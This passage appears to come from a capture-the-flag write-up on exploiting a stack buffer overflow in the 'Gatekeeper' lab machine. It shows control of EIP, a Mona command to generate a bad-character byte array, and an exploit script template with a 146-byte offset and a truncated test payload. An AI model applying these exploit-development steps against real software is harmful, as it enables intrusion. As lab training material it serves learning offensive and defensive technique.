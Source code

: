 We can see we have control of EIP because it contains 42424242 which is ASCII for BBBB which we just sent. Eventually we'll be putting the address of the ESP in there to cause the program to jump to our shellcode.

## Finding Bad Characters

First we need to check for bad characters. We use Mona to create our initial list:

```text
!mona bytearray -b "\x00"
```

You can see in the output it list all of the possible ASCII characters:

![gatekeeper-bytearray](/assets/images/2021-03-17-22-06-01.png)

There is a text file generated, which we can use to copy the ASCII code out of to place in our script:

![gatekeeper-byte-text](/assets/images/2021-03-17-22-09-45.png)

Paste in to the payload section:

```text
prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
```